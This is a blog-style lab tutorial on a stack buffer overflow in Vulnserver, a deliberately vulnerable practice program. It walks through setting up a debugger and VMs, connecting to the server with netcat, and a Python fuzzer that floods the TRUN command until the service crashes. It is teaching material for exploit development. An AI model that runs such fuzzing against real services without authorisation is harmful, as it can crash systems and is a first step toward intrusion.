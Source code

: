 ```yaml
---
title: "Vulnserver - Stack Based Buffer Overflow"
date: 2020-01-19 
header:  
excerpt: "Vulnserver - Stack Based Buffer Overflow"
---
```


##  Intro

Vulnserver is an intentionally vulnerable software that can be found from [thegreycorner's blog](http://www.thegreycorner.com/p/vulnserver.html) or alternatively on their [GitHub](https://github.com/stephenbradshaw/vulnserver).

The software has multiple different Buffer Overflow vulnerabilities of which the Stack Based Buffer Overflow using the TRUN command is the simplest.

To practice exploiting the software we need the following
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
* [Mona.py](https://github.com/corelan/mona)
* Vulnserver
* Windows 10 (**32-Bit**)

## Setup

I will be using [VMware Workstation pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0), you could alternatively use [VirtualBox](https://www.virtualbox.org/wiki/Downloads) which is free. Select the version  based on your operating system e.g. Windows.
After downloading the preferred Virtualization platform we need to create the two Virtual Machines Windows & Kali.

After creating the VMs, start up Windows VM and download vulnserver, immunity debugger & mona.

### Setting up Immunity Debugger

Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
fill the form, you can put random information in the fields.

![immu1](/images/vulnserver/stack/immu1.PNG)

Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**

![mona1](/images/vulnserver/stack/mona1.PNG)

You can now open Immunity Debugger by right clicking the shortcut and "run as administrator"

![immu2](/images/vulnserver/stack/immu2.PNG)

### Setting up Vulnserver

Download the Vulnserver software and extract it somewhere where it is easy to access such as the Desktop.

![vuln1](/images/vulnserver/stack/vuln1.PNG)

In the vulnserver folder there a few files, start the vulnserver.exe by right clicking it and "run as administrator"

![vuln2](/images/vulnserver/stack/vuln2.PNG)

You now have vulnserver up and running

![vuln3](/images/vulnserver/stack/vuln3.PNG)


## Exploiting TRUN Command

Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
the commands by issuing the command **HELP** after connecting.

![exp1](/images/vulnserver/stack/exp1.PNG)

First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be spmethign like.

````python
#!/usr/bin/python
import sys, socket
from time import sleep

host = "192.168.209.133"
port = 9999

buffer = "A" * 100

while True:
         try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((host,port))
                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100

         except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```